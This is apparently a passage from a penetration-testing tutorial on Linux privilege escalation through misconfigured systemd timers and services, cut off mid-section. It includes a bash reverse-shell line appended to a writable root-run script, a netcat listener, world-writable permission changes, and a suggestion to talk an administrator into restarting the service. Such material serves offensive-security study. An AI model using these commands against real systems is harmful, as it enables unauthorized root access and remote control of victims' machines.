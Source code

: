 Look at the trigger to see how much time is left:

```shell
Trigger: Fri 2021-11-05 22:52:00 PDT; 33s left
```

List all the timers:

```shell
user@pwn:~/Desktop$ systemctl list-timers --all | grep myscript.timer
n/a                         n/a           Fri 2021-11-05 23:02:00 PDT 3min 15s ago       myscript.timer               myscript.service    
```

File timer and service permissions:

```shell
user@pwn:~/Desktop$ ls -la /etc/systemd/system/myscript.timer
-rw-r--r-- 1 root root 125 Nov  5 22:48 /etc/systemd/system/myscript.timer
user@pwn:~/Desktop$ ls -la /etc/systemd/system/myscript.service
-rw-r--r-- 1 root root 97 Nov  5 22:35 /etc/systemd/system/myscript.service
```

# Privilege Escalation via Writable Executable

Add writable permissions to the script:

```shell
sudo chmod o+w /opt/elevate.sh
```

If the script that's being run by the service is writable, we can just write something malicious to the script like adding a reverse shell code:

```shell
user@pwn:~/Desktop$ echo 'bash -i >& /dev/tcp/10.10.10.15/1234 0>&1' >> /opt/elevate.sh
```

To make this work, we need to restart the service. However, if we are in a session with a user who lacks the necessary capabilities or permissions to restart the service, we have a few options: we can either reboot the system, wait for an opportunity, or persuade the system administrator to restart the service for us. Then we could receive the reverse shell:

```shell
nc -lvnp 1234
```

# Privilege Escalation via Writable Timer

A misconfiguration of this is when others have write permissions to the service configuration file:

```shell
sudo chmod o+w /etc/systemd/system/elevate.service
```

We'll then verify the permissions to confirm that the `others` group is writable:

```shell
ls -l /etc/systemd/system/elevate.service
-rwxr-xrwx 1 root root 96 Nov  5 23:16 /etc/systemd/system/elevate.service
```
